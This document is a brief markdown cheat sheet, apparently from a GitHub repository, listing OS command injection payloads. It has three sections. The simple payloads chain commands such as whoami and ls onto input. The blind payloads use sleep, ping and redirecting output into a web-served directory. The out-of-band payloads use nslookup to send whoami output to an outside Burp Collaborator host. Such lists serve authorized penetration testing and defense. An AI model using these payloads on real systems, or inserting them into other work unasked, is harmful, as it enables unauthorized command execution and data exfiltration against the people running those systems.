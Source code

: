 # OS Command Injection Payloads
___
## Simple Case
```sh
& whoami #

;ls

;ls;
```
## Blind injection
```sh
& sleep 10 #

; sleep 10 ;

& whoami > /var/www/images/output.txt # >> Output redirection

; whoami > /var/www/images/output.txt ; >> Output redirection

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Out of band
```sh
& nslookup xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #
& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #
```
